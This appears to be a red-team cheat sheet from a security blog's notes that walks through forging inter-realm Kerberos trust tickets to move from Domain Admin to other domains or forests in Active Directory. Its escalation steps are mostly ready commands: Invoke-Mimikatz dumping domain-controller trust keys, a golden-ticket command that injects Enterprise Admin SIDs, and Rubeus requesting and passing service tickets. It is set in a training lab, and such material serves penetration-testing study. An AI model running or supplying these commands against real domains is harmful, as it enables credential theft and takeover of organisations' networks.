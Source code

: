 # Domain Trusts - Forging Trust Tickets

🔎 View in Notion [Link](https://r3dbuck3t.notion.site/Domain-Trusts-Forging-Trust-Tickets-cad847c5afb8447cac284ae5c97ed38e)
📖 Related Article on R3d-Bucket: [Breaking Domain Trusts with Forged Trust Tickets]()

# Escalation Requirement 🚩

- Domain Admin privileges on the compromised domain machine.
- Domain Controller **Trust Key** to forge the **Inter-realm TGT tickets.**

# Escalation Vectors 🎯

- **Across Domains:** an attacker with DA privileges can hop to another domains within the forest.
- **Across Forests:** accessing another forests that have transitive 2 way trust relationship with the compromised forest.

# Tools

- **Invoke-Mimikatz**
- **Rubeus**

# Escalation Steps

1. **Dump trust keys  with Mimikatz [DA privs are required]**
    
    > **Invoke-Mimikatz -Command ‘“lsadump::trust /patch”’-ComputerName DC-Name**
    > 
    
    > **Invoke-Mimikatz -Command ‘“lsadump::trust /patch”’-ComputerName dcorp-dc**
    > 

1. **Create Inter-realm Ticket with Mimikatz**
    
    > **Invoke-Mimikatz -Command '"Kerberos::golden /user: Administrator  /domain: dollarcorp.moneycorp.local [child_domain]
    /sid: DomainAdmin_SID   /sids: Enterprise_Admin_SID   /rc4: Ticket HASH  /service:krbtgt   /target:moneycorp.local [root domain]
    /ticket: location to save the ticket"'**
    > 

1. **Request service tickets with Rubeus** 
    
    > **Rubeus.exe asktgs   /ticket: ticket Location  /service: service type [cifs/mcorpdc.moneycorp.local]  /dc: domain controller [mcorp-dc.moneycorp.local]  /ptt**
    > 
    
    # References
    
    [Enumerating Domain Trusts in Active Directory](https://medium.com/r3d-buck3t/enumerating-domain-trusts-in-active-directory-series-c85205fc862f)
    
    [](https://www.pentesteracademy.com/activedirectorylab)
    
    [From Domain Admin to Enterprise Admin](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/child-domain-da-to-ea-in-parent-domain)
    
    [Specifying Security and Administrative Boundaries](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc755979(v=ws.10)?redirectedfrom=MSDN)
